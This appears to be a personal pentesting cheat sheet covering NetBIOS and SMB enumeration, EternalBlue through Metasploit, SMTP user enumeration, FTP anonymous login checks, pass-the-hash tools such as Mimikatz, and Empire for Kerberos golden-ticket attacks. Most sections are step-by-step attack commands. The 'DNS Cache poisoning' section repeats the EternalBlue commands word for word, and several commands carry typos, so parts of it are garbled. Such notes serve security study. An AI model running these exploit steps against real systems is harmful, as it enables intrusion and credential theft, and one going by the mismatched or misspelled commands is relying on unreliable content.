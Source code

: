 <h5><em>Update: Aug-2022</em></h5>

<h2> NetBIOS and SM Enumeration</h2>

<h4>1. NetBIOS</h4>

-   Used befor Windows 7
-   NetBIOS Name Service (NetBIOS-NS): UDP 137
-   16-character name assigned to a computer in a workgroup by WINS for name resolution of an IP address to NetBIOS name (Now uses DNS for name resolution)
-   NetBIOS Datagram Service (NetBIOS-DGM): UDP 138
-   NetBIOS Session service (NetBIOS-SSN): TCP 139
-   SMB protocol: TCP 445
-   Microsoft Remopte Procedure Call (RPC): TCP135

```sh
# PowerShell
nbtstat -a <host-address>
# Bash
nbtscan

```

<h4>2.  Server Message Block (SMB) exploit</h4>

-   [Exploit Database](https://www.exploit-db.com/)

```sh
# Bash
sudo searchexploit smb

# Metasploit
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOST <host-address>
set LHOST <host-address>
exploit

```

-   [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue)
    -   SMB exploit tool leaked from U.S. NSA
    -   EternalBlue on Metasploit

```sh
sudo service postgresql start
msfconsole
> show options
> search Eternal
> use exploit/windows/smb/ms17-010_eternalblue
# set remote host (victiom): SMB server
> set RHOST xxx.xxx.xxx.xxx
# set local host (attacker)
> set LHOST xxx.xxx.xxx.xxx
> exploit

```

<h4>3. DNS Cache poisoning</h4>

```sh
sudo service postgresql start
msfconsole
> show options
> search Eternal
> use exploit/windows/smb/ms17-010_eternalblue
# set remote host (victiom): SMB server
> set RHOST xxx.xxx.xxx.xxx
# set local host (attacker)
> set LHOST xxx.xxx.xxx.xxx
> exploit

```

<h4>4. SNMP Exploits</h4>

```sh
ls -l /usr/share/nmap/scripts smp*


```

<h4>5. SMTP Exploits</h4>

-   SMTP open relay
    -   An email server accepts and relays (sends) emails from any user
    -   It is possible to send spoofed emails, spam, phishing, and other email-related scams

```sh
namp --script smtp-open-relay.nse

# SMTP commands
telnet xx.xx.xx.xx
smtp-user-enum

smtp-user-enum -M VRFY -U users.txt -t xx.xx.xx.xx
smtp-user-enum -M EXPN -U admin1 -t xx.xx.xx.xx
smtp-user-enum -M RCPT -U users.txt -T mail-ser-ips.txt
smtp-user-enum -M EXPN -D example.com -t xx.xx.xx.xx

searchsploit smtp

```

<h4>6. FTP Exploits</h4>

-   Use SFTP (FTP with SSH) or FTPS (FTP over TLS)
    -   DES, BlowFish, MD5, SHA-1: weak encryption/hash
    -   SHA-2 family (SHA-2, SHA-512) recommended

```sh

# port scan: prot number/service only
nmap xx.xx.xx.xx
# port scan: prot number/service + service daemon info. + OS
nmap -sV xx.xx.xx

# open Metasploit
sudo msfconsole
# FTP anonymous login verification using Metasploit
> use auxiliary/scanner/ftp anonymous
> set RHOST xx.xx.xx.xx
> exploit

```

<h4>7. Pass-the-Hash Attacks</h4>

-   MS Windows: Security Account Manager (SAM)

    -   Saved in "C:\Windows\System32\config"
    -   NTLM (New Technology LAN Manager)
    -   [<u>"Cain and Abel"</u>](<https://en.wikipedia.org/wiki/Cain_and_Abel_(software)>) (Windows-version only password recovery tool + ...)
    -   [<u>"Ophcrack"</u>](https://ophcrack.sourceforge.io/): free windows password cracker based on rainbow tables
    -   [<u>"John The Ripper"</u>](https://github.com/openwall/john): open-source password security auditing and password recovery tool

-   [Mimikatz](https://github.com/ParrotSec/mimikatz)
    -   Retrieve password hashes from memory
    -   Metasploit/Mimikatz integration tutorial: https://www.offensive-security.com/metasploit-unleashed/mimikatz/

```sh
# try
id
ip address show

# John the Ripper
john --help

# mimikatz
sudo su

msfconsole
> search exploits
# find usable meterpreter exploits, and set connection to victiom
> use exploit-name
> search options
> set option-id option-valeu
> exploit

```

<h4>8. Kerberos and LDAP-base Attacks</h4>

-   Kerberos
    -   Federated authentication protocol defined in RFC4120
    -   Refer to [MIT Kerberos Consortium](https://www.kerberos.org/)
-   Windows AD employs LDAP as an access protocol

<h5>8-1. Golden ticket attackKerberos and LDAP-base Attacks</h5>

-   Refer to [Empire Github](https://github.com/EmpireProject/Empire)

```sh

# Empire setup (Need verified)
# cd directory-to-be-installed
# git clone https://github.com/EmpireProject/Empire
# cd Empire/setup
# ./install.sh
# cd ..
# ./empire

# powershell-empire tool
powershell-empire -h

```
